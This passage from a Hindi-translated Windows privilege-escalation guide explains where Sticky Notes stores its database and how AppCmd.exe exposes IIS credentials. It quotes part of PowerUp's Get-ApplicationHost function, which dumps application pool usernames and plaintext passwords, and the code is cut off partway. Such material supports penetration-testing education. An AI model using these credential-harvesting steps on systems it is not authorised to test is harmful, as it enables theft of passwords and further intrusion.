 ### Sticky Notes

लोग अक्सर Windows वर्कस्टेशनों पर StickyNotes ऐप का उपयोग **पासवर्ड** और अन्य जानकारी को सहेजने के लिए करते हैं, यह नहीं realizing कि यह एक डेटाबेस फ़ाइल है। यह फ़ाइल `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` पर स्थित है और इसे खोजने और जांचने के लिए हमेशा मूल्यवान होता है।

### AppCmd.exe

**ध्यान दें कि AppCmd.exe से पासवर्ड पुनर्प्राप्त करने के लिए आपको Administrator होना चाहिए और उच्च इंटीग्रिटी स्तर के तहत चलाना चाहिए।**\
**AppCmd.exe** `%systemroot%\system32\inetsrv\` निर्देशिका में स्थित है।\
यदि यह फ़ाइल मौजूद है तो संभव है कि कुछ **क्रेडेंशियल्स** कॉन्फ़िगर किए गए हैं और उन्हें **पुनर्प्राप्त** किया जा सकता है।

This code was extracted from [**PowerUP**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1):
```bash
function Get-ApplicationHost {
$OrigError = $ErrorActionPreference
$ErrorActionPreference = "SilentlyContinue"

# Check if appcmd.exe exists
if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
# Create data table to house results
$DataTable = New-Object System.Data.DataTable

# Create and name columns in the data table
$Null = $DataTable.Columns.Add("user")
$Null = $DataTable.Columns.Add("pass")
$Null = $DataTable.Columns.Add("type")
$Null = $DataTable.Columns.Add("vdir")
$Null = $DataTable.Columns.Add("apppool")

# Get list of application pools
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

# Get application pool name
$PoolName = $_

# Get username
$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
$PoolUser = Invoke-Expression $PoolUserCmd

# Get password
$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
$PoolPassword = Invoke-Expression $PoolPasswordCmd

# Check if credentials exists
if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
}
}

# Get list of virtual directories
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

# Get Virtual Directory Name
$VdirName = $_
```